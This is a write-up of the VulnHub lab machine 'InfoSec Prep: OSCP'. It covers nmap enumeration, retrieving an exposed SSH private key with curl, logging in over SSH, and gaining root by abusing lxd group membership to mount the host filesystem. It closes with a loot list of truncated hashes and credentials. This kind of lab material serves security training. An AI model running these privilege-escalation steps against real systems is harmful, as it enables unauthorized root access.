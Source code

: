 [VulnHub] InfoSec Prep: OSCP
===============
date: 10/Aug/2020
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [InfoSec Prep: OSCP](https://www.vulnhub.com/entry/infosec-prep-oscp,508/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_infosecpreposcp/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_infosecpreposcp/killchain.png.webp)

### TTPs
* `80/tcp/http/Apache httpd 2.4.41 ((Ubuntu))`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_ssh_privatekeys](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [privesc_lxc_bash](https://github.com/7h3rAm/writeups#privesc_lxc_bash)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Mon Jul 20 12:03:57 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/xml/_quick_tcp_nmap.xml 192.168.119.198
Nmap scan report for 192.168.119.198
Host is up, received user-set (0.0022s latency).
Scanned at 2020-07-20 12:04:12 IST for 9s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 20 12:04:21 2020 -- 1 IP address (1 host up) scanned in 24.59 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/openports.png.webp)  

3\. We find `80/tcp` to be open. Upon browsing the webpage we see that it looks to be a Wordpress blog with a post named "OSCP Voucher". This posts lists the process to submit the flag and also mentions that there's a user named `oscp` on this machine:  

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot01.png.webp)  

4\. The `gobuster` scan result confirms that this is a Wordpress blog. We see an interesting entry `secret.txt` from `gobuster` scan results and also from the `robots.txt` file:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot02.png.webp)  

![writeup.enumeration.steps.4.2](/static/files/posts_vulnhub_infosecpreposcp/screenshot03.png.webp)  

5\. This file has base64 encoded content that we decode to find a SSH private key file:  
```
curl http://192.168.119.198/secret.txt | base64 -d -
```

![writeup.enumeration.steps.5.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot04.png.webp)  

### Findings
#### Open Ports
* `22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux protocol 2.0)`
* `80/tcp      http       Apache httpd 2.4.41 ((Ubuntu))`
* `33060/tcp   socks5`

#### Files
* `http://192.168.119.198/secret.txt`
* `http://192.168.119.198/license.txt`

#### Users
* `ssh: oscp`
* `wordpress: admin`

## Phase #2: Exploitation
1\. We can try to SSH into the machine as user `oscp` using the SSH private key file. First, we need to set right permissions to the key file and then use it for login:  
```
curl http://192.168.119.198/secret.txt | base64 -d - >./sshkey.pvt
chmod 600 sshkey.pvt
ssh -i sshkey.pvt oscp@192.168.119.198
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot05.png.webp)  

2\. We successfully login and get interactive access of the machine as user `oscp`:  

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot06.png.webp)  


## Phase #2.5: Post Exploitation
```
oscp@oscp> id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
oscp@oscp>  
oscp@oscp> uname
Linux oscp 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
oscp@oscp>  
oscp@oscp> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 192.168.119.198  netmask 255.255.255.0  broadcast 192.168.119.255
  inet6 fe80::20c:29ff:fee6:a4ab  prefixlen 64  scopeid 0x20<link>
  ether 00:0c:29:e6:a4:ab  txqueuelen 1000  (Ethernet)
  RX packets 389730  bytes 88031188 (88.0 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 297471  bytes 52912167 (52.9 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 694  bytes 64212 (64.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 694  bytes 64212 (64.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
oscp@oscp>  
oscp@oscp> users
root
oscp
```

## Phase #3: Privilege Escalation
1\. From the output of command `id`, we see that the user `oscp` is a member of `lxd` group. We can exploit this misconfiguration to create a dummy container that mounts the local file system and gain access to all privileged files. But we see that the `lxc` command for this to work is not found in our current environment path:  
```
lxc init ubuntu:16.04 test -c security.privileged=true
  -bash: lxc: command not found
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot09.png.webp)  

2\. We locate the file and use it's absolute path to create the container. This time we see another error about storage pool. The error message helpfully points us in the right direction and we need to initialize LXD first. We use the suggested command with the absolute path and choose default settings when prompted for a change:  
```
/snap/bin/lxd init
/snap/bin/lxc init ubuntu:16.04 test -c security.privileged=true
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
/snap/bin/lxc start test
/snap/bin/lxc exec test bash
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot10.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_vulnhub_infosecpreposcp/screenshot11.png.webp)  

![writeup.privesc.steps.2.3](/static/files/posts_vulnhub_infosecpreposcp/screenshot12.png.webp)  

![writeup.privesc.steps.2.4](/static/files/posts_vulnhub_infosecpreposcp/screenshot13.png.webp)  

## Learning/Recommendation
* The SSH key for a user on the target machine was exposed via web application. Although the file was base64 encoded and listed within `robots.txt`, it doesn't stop an attacker from accessing it.
* The local user was member of the LXD group which allowed to create a privileged container with access to the entire file system. This lead to complete access of files, even those that have been restricted to `root` user only.

## Loot
### Hashes
* `oscp:$6$k8OEgwaFdUqpVETQ$sKlBojI3IYunw8wEDAyoFdHgVtOPzkDPqksql7IWzpfZXpd3UqP569BokTZ52mDroq/rmJY9zgfeQVmB.........................`
* `root:$6$.wvqHr9ixq/hDW8t$a/dHKimULfr5rJTDlS7uoUanuJB2YUUkh.LWSKF7kTNp4aL8UTlOk2wT8IkAgJ.vDF/ThSIOegsuclEg.........................`

### Credentials
* `mysql: wordpress/Oscp12....`
* `wordpress: admin:$P$Bx9ohXoCVR5lkKtuQbuWuh2........`

### Flags
* `/mnt/root/root/flag.txt: d73b04b0e696b0945283d...........`

## References
* <https://www.vulnhub.com/entry/infosec-prep-oscp,508/>  
* <https://reboare.github.io/lxd/lxd-escape.html>  
* <https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation>  
* <https://medium.com/@falconspy/infosec-prep-oscp-vulnhubwalkthrough-a09519236025>  
